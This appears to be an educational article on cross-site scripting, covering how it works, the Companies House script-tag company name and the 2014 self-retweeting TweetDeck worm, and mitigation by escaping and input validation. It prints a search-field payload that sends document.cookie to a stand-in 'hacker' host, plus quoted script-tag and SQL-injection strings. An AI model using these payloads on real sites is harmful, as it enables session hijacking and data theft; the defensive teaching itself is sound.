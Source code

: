 # XSS — what is it and how to protect yourself?

![Exploits of a Mom](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)



## Briefly about XSS vulnerabilities

What is XSS? How to search? How to understand if there is XSS or not? We'll figure it out now. Let's go!

**XSS (Cross-Site Scripting)** — the ability to execute arbitrary JavaScript code in the victim's browser in the context of your site.

XSS is one of the most common vulnerabilities in the web. More than 95% of web applications are vulnerable to XSS. To find a bug, it is not necessary to have special skills, take courses or get a higher education.

Indeed, despite the fact that XSS is a common vulnerability, it remains one of the most serious client vulnerabilities.



## How does XSS work?

![](KWzNGLttm7.png)

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.



## XSS examples 

**Example 1.**
For example, the HTML snippet:

```html
<title>Example document: %(title)</title>
```

is intended to illustrate a template snippet that, if the variable title has value [Cross-Site Scripting](https://www.veracode.com/blog/2012/07/what-is-cross-site-scripting), results in the following HTML to be emitted to the browser:

```html
<title>Example document: XSS Doc</title>
```


A site containing a search field does not have the proper input sanitizing. By crafting a search query looking something like this:

```html
"><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>
```


sitting on the other end, at the web server, you will be receiving hits where after a double space is the user's cookie. If an administrator clicks the link, an attacker could steal the session ID and hijack the session.

 

**Example 2.**
Suppose there's a URL on Google's site, `*http://www.google.com/search?q=flowers*`, which returns HTML documents containing the fragment

```html
<p>Your search for 'flowers' returned the following results:</p>
```

i.e., the value of the query parameter q is inserted into the page returned by Google. Suppose further that the data is not validated, filtered or escaped. 
Evil.org could put up a page that causes the following URL to be loaded in the browser (e.g., in an invisible*<iframe>*):

```html
http://www.google.com/search?q=flowers+%3Cscript%3Eevil_script()%3C/script%3E
```

When a victim loads this page from [www.evil.org](https://www.veracode.com/security/xss#), the browser will load the iframe from the URL above. The document loaded into the iframe will now contain the fragment

```html
<p>Your search for 'flowers <script>evil_script()</script>'
```

```html
returned the following results:</p>
```


Loading this page will cause the browser to execute *evil_script()*. Furthermore, this script will execute in the context of a page loaded from *www.google.com.*

 

## The real story with the British Register of Companies

On October 20, a certain Jim Walker shared an interesting observation on the forum of developers of the British state register of companies Companies House. Companies House allows the characters < and > in company names. This opens up scope for attacks on those sites that do not filter and do not screen control characters in the correct way. If the site displays the company name and does not synthesize data, then it is potentially vulnerable to an XSS attack.

Walker discovered that on October 16, a certain Michael John Tandy had registered a company with the name `"><SCRIPT SRC=HTTPS://MJT.XSS.HT></SCRIPT> LTD`. If there is no XSS filter, what is the company name embedding code on the web page that calls external JavaScript.

![img](https://habrastorage.org/r/w1560/webt/cp/-8/pl/cp-8plobwfxzzz724_jpguf9zfu.png)

On October 22, the regulator sent a warning to its partners about "company 12956509". The letter carefully avoids mentioning the real name. The company is called by the number in the database.

In the letter, employees give a brief educational program about the nature of XSS attacks and warn about possible security risks.

![img](https://habrastorage.org/r/w1560/webt/sy/qc/7f/syqc7f6wqc4odbw-kkw07zy9msi.png)

Companies House hid the company's name to the maximum. As noted on Twitter (X), even the statement about the institution 12956509 in the name field contained: "The name of the company is provided on request."

The culprit of the event himself appeared in Jim Walker's thread on October 23, three days after the discovery. Michael Tandy explained that it would be irresponsible for him to disclose information on a public forum, so he contacted Companies House through a technical support ticket.

Resources that receive information from the Companies House registry are vulnerable. Michael said that he is already contacting all the sites that called his script. As a security researcher complained, sites vulnerable to XSS rarely post contacts for communication and do not have an account on HackerOne-type services.

At the forum, Company House employees confirmed that they had received Tandy's messages. The name "company 12956509" was changed to *THAT COMPANY WHOSE NAME USED TO CONTAIN HTML SCRIPT TAGS LTD* (literally "the company whose name used to contain HTML tags"). It is unknown whether the vulnerability in Company House systems has been fixed. Perhaps the registry has introduced special restrictions on names.

It is not the first time that attempts to inject code are found in the Companies House registry. In 2016, a company with SQL injection appeared under the number 10542519: `; DROP TABLE "COMPANIES";-- LTD`



## XSS attack on Twitter (X)

In 2014, an Austrian teenager @firoxl was experimenting with his feed on Twitter, trying to make it display the Unicode ‘heart’ character. By doing so, he inadvertently discovered that Twitter’s feed was vulnerable to an XSS attack! @firoxl immediately reported the issue to Twitter, but it was too late. His discovery was already making rounds on social media.

Less than two hours after @froxl’s discovery, a German IT student @derGeruhn published a Tweet that exploited XSS to ... retweet itself. Thus, the self-retweeting tweet was released into the world. It retweeted itself hundreds of thousands of times and affected thousands of Twitter accounts, including @NYTimes and @BBCBreaking. To end its reign, Twitter had to take their whole feed offline.

On the left you will find an image that shows the content of the self-retweeting tweet. The tweet contains malicious JavaScript code which gets executed every time someone views the tweet in their feed. The script accesses the HTML of the Twitter page, finds the “retweet” button, and presses it to retweet itself.

![A self-retweeting tweet](https://images.ctfassets.net/4un77bcsnjzw/3ho0b9vT3FYIBKWiWGe0bu/3a387ca01b12ac1010ae6f2fa9546cb6/tweetdeck-hacked.png)



## XSS mitigation

### 1. Find places where user input gets injected into a response

XSS is extremely popular for a reason: we programmers very often inject user-supplied data into the responses we send back to users. The first step to mitigate XSS is to find all places in your code where this pattern occurs. Input data might be coming from a database or directly from a user request. Any data which might have originated from a user at any point in the past is a suspect.



### 2. Escape the output

Having identified all the places where XSS might be happening, it’s time to get your hands dirty and code your way out of danger. The first and the most important XSS mitigation step is to escape your HTML output. To do that, you should HTML-encode all dangerous characters in the user-controlled data before injecting that data into your HTML output.

For example, when HTML-encoded, the character `<` becomes `&lt`, and the character `&` becomes `&amp` etc. This way, the browser will safely handle the HTML-encoded characters, i.e. it will not assume they are part of the HTML structure of your page.

Remember to encode all dangerous characters. Don’t assume only a subset of characters needs to be escaped for your specific use case. Bad guys are very creative and will always find ways to bypass your assumptions.

Instead of writing an escape function by yourself, use a well-proven library such as [lodash.escape](https://www.npmjs.com/package/lodash.escape).

![XSS mitigation where a hacker tries to inject a malicious script but the script's content is escaped](https://images.ctfassets.net/4un77bcsnjzw/1ABjVui53sICnyiBxPduPO/6efb664e2b908f2f394abc8ca755dd6a/XSS_Mitigation.svg)

```javascript
import escape from 'lodash.escape';

function handleMessageSend(messageId, senderEmail, messageContent)  {
  database.save(messageId, senderEmail, messageContent);
}

function generateMessageHTML(messageId) {
  let messageContent = database.loadContent(messageId);
  let escapedContent = escape(messageContent);
  return `<p class="messageContent">${escapedContent}</p>`;
}
```



### 3. Perform input validation

Be as strict as possible with the data you receive from your users. Before including user-controlled data in an HTTP response or writing it to a database, validate it is in the format you expect. Never rely on blocklisting—the bad guys will always find ways to bypass it!

For instance, in our chat application, we expect the messageId to be a valid UUID and the senderEmail to be a valid email. Note that in the example we changed generateMessageHTML to generateSenderHTML. This demonstrates two layers of defence to prevent XSS with the senderEmail parameter: we both validate it before saving it to a database and later escape it when injecting it into HTML.

We can use validator.js, which has validation functions for many common data types.

```javascript
import escape from 'lodash.escape';
import isEmail from 'validator/lib/isEmail.js';
import isUUId from 'validator/lib/isUUID.js';

function handleMessageSend(messageId, senderEmail, messageContent)  {
  if (!isUUId(messageId)) {
    throw new Error("validation of messageId parameter failed");
  }

  if (!isEmail(senderEmail)) {
    throw new Error("validation of email parameter failed");
  }

  database.save(messageId, senderEmail, messageContent);
}

function generateSenderHTML(messageId) {
  let messageSender = database.loadSender(messageId);
  let escapedSender = escape(messageSender);
  return `<div class="messageSender">${escapedSender}</div>`;
}
```



### 4. Don’t put user input in dangerous places

The above mitigation is effective against situations where user input is used as the content of an HTML element (e.g. `<div> user_input </div>` or `<p> user_input </p>` etc.). However, there are certain locations where you should never put a user-controlled input. These locations include:

- Inside the `<script>` tag
- Inside CSS (e.g. inside the `<style>` tag)
- Inside an HTML attribute (e.g. `<div attr=user_input>`)

There are some exceptions to the above rules, but explaining them goes beyond the scope of this lesson. If you do need to place user-controlled input inside any of the listed locations, please follow the [OWASP Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for a more detailed advice.



## Some resources that describe ways to protect XSS

1. OWASP Foundation: The OWASP website provides an overview of XSS attacks and how to test for them. It also offers a set of reusable security components in several languages, including validation and escaping routines to prevent parameter tampering and the injection of XSS attacks.
2. Web Security Academy: This website explains what XSS is, how it works, and how to prevent it. It also provides examples of different types of XSS attacks, such as reflected, stored, and DOM-based XSS. 
3. TechTarget: This website provides a definition of XSS and how it works. It also explains how to prevent and fix it.
4. Trend Micro: This website explores the three types of XSS attacks: reflected, stored, and DOM-based. It also provides information on how to mitigate XSS vulnerabilities in your projects. 
5. Synopsys: This website explains what XSS is and how it works. It also provides examples of how attackers can initiate an XSS attack and the potential consequences of such an attack. 
6. Acunetix: This website explains what XSS is and how it works. It also provides information on the different types of XSS attacks and how to prevent them.
